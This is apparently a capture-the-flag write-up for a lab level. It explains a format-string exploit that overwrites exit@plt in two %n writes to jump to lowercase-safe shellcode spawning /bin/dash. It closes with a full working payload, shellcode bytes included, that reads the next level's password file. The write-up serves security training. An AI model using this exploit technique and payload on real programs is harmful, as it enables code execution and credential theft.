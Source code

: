 # Format String exploit on the stack

see source.c

## Analysis

After a quick look, we noticed where the flaw is:
the program is calling printf with a received input strings.

The difficulty of this one is obviously the call at exit right away, that means we have to modify and use the linkage table of exit 'exit@plt' and redirect it on a payload/function. But we didn't find any cool function to use so this was a payload time !

First problem: We didn't manage to jump on a address on the stack on the previous format string exploit due to the really high value of the stack and the printf maximum capacity of char printed. So we think about it and found a smart way to do it: Modify the pointer in 2 times instead of 1 ! Meaning that the highest value that we have to print and assign to a pointer would be 0xffff (65536), let's jump on that payload ! o/

### Example:
Supposing we need to rewrite the address at 0x080407e0 and set it to 0xffffd69d:
Firstly we will fill 0x080407e0 with the last 2 bytes with a first %n so:
``` 
0x080407e0: 0x0000d69d (\x9d\xd6\x00\x00)
```
Then we will fill 0x080407e0 + 2 with the last 2 bytes (here 0xffff), it will also rewrite 0x080407e0 but we don't care:
```
0x080407e2: 0x0000ffff (\xff\xff\x00\x00)
so:
0x080407e0: 0xffffd69d (\x9d\xd6\xff\xff)
```

Of course, the first 2 bytes digit must be < to the last 2 bytes on this solution, but this was the case c:

### Payload structure
Ok cool ! Then we have to think about a payload structure to make this works ! We'll do something like this:
```
[ EXIT@PTR ][4 bytes padding ][ EXIT@PTR + 2][ /bin/dash payload ][padding]%n[padding]%n"
```
`padding` must contains %p or %x and padding needed to fill the right value on %n. We'll use gdb to caculate that !

### /bin/dash payload
Another problem from the code with disassemble: the program is putting all uppercase letters in lowercase.. That means we have to build a little payload that doesn't contains any uppercase to avoid problems (because bytecode will be different, it will break our payload).

see `resources/payload.s` to see the achieved payload.

## Exploit

After a some deep problem with stack localization in/or out gdb (address weren't the same), we manage to get a good payload by analysing the pointer that we were printing, for example:

```
0xf7fcfac0 0xf7ec3af9 0xffffd6af 0xffffd6ae(nil) 0xffffffff 0xffffd734 0xf7fdb000 // tracerless payload
0xf7fcfac0 0xf7ec3af9 0xffffd6bf 0xffffd6be(nil) 0xffffffff 0xffffd744 (nil) // gdb/ltrace payload
```
We can see that we haven't the same amount of printed bytes and address are 0x10 away one to another, so we have to think about all that when migrating the payload out of gdb.

Final payload (poggers):
```
(python -c "print('\xe0\x97\x04\x08aaaa\xe2\x97\x04\x08\x31\xc9\xf7\xe1\x6a\x0b\x5f\x89\xf8\x6a\x68\x68\x2f\x64\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x6a\x01\x5f\x89\xf8\xcd\x80%2993p%51830p%p%p%p%p%p%p%p%10n %10601p %n')"; echo "cat /home/users/level06/.pass") | /home/users/level05/level05
```
